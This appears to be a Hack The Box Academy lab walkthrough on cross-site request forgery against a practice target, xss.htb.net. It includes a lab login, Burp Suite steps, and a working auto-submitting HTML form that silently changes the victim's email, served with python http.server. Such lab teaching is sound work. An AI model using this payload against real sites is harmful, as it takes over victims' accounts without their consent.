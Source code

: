 * Email: crazygorilla983
* Password: pisces

This is an account that we created to look at the functionality of the application.

Run Burp Suite as follows.

&#x20; Cross-Site Request Forgery (CSRF or XSRF)

```shell-session
root@htb[/htb]$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now, click on "Save."

You should see the below.

![image](https://academy.hackthebox.com/storage/modules/153/28.png)

We notice no anti-CSRF token in the update-profile request. Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).

First, create and serve the below HTML page. Save it as `notmalicious.html`

Code: html

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

If you are wondering how we ended up with the above form, please see the image below. ![image](https://academy.hackthebox.com/storage/modules/153/29.png)

We can serve the page above from our attacking machine as follows.

&#x20; Cross-Site Request Forgery (CSRF or XSRF)

```shell-session
root@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

No need for a proxy at this time, so don't make your browser go through Burp Suite. Restore the browser's original proxy settings.
